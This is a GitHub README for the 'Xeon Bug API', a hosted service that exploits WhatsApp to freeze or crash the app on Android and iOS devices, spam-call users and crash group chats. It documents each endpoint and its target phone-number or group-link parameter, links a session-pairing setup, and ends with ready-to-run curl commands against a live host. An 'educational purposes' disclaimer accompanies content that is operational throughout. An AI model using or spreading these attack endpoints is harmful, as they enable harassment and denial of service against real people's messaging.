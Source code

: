 
# 🚀 Xeon Bug API

The **Xeon Bug API** is a powerful endpoint API developed by **[Dream Guy Xeon](https://github.com/DGXeon)** to exploit vulnerabilities in WhatsApp. This API provides endpoints that can:

- 🛑 Delay WhatsApp on Android devices.
- 🌋 Spam Call Users on WhatsApp.
- 🍎 Crash WhatsApp on iOS devices.
- 💥 Crash entire WhatsApp group chats.

> **⚠️ Warning:** This API is for educational purposes only. Misuse of this tool may result in serious legal consequences. Use responsibly.

---

## 🌟 Features

- 🔥 **Delay Android Devices**  
- 🕸️ **Spam Call Users**
- 🍏 **Crash iOS Devices**  
- 💬 **Crash Group Chats**

---

## 📌 Endpoints

### 1️⃣ **Delay Android WhatsApp**  
**Description:** Delay and crashes WhatsApp on Android devices.  
**Endpoint:**  
```bash
GET ${api_link}/freezeDroid?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 2⃣ **Spam Call Users**  
**Description:** Spam call users on WhatsApp.  
**Endpoint:**  
```bash
GET ${api_link}/callSpam?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 3⃣ **Crash iOS WhatsApp**  
**Description:** Crashes WhatsApp on iOS devices.  
**Endpoint:**  
```bash
GET ${api_link}?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 4⃣ **Crash Group Chats**  
**Description:** Crashes an entire WhatsApp group chat.  
**Endpoint:**  
```bash
GET ${api_link}/crashGroup?target=${grouplink}
```  
**Parameters:**  
| Key        | Type   | Description                              |
|------------|--------|------------------------------------------|
| `target`   | String | The WhatsApp group chat link to target.  |

---

# Setup For Deployment 👇

## 🎯 Generate Pair Code For Session
[![Xeon](https://repl.it/badge/github/quiec/whatsasena)](https://replit.com/@DGXeon/Xeon-PairCode)

## ⚠️ Disclaimer

**Note:**  
This API is designed strictly for educational and research purposes to highlight vulnerabilities in applications. Any unauthorized use to harm individuals, groups, or organizations is strictly prohibited. Ensure you comply with all applicable laws before using this API.

---

## 💻 Example Usage

```bash
# Delay Android WhatsApp
curl -X GET "https://xeon-bug-api.onrender.com/freezeDroid?target=1234567890"

# Spam Call User
curl -X GET "https://xeon-bug-api.onrender.com/callSpam?target=1234567890"

# Crash iOS WhatsApp
curl -X GET "https://xeon-bug-api.onrender.com/iosCrash?target=1234567890"

# Crash Group Chat
curl -X GET "https://xeon-bug-api.onrender.com/crashGroup?target=https://chat.whatsapp.com/exampleGroupLink"
```

---

### 👨‍💻 Developed By: **[Dream Guy Xeon](https://github.com/DGXeon)**

Enjoy bugging responsibly! ✨

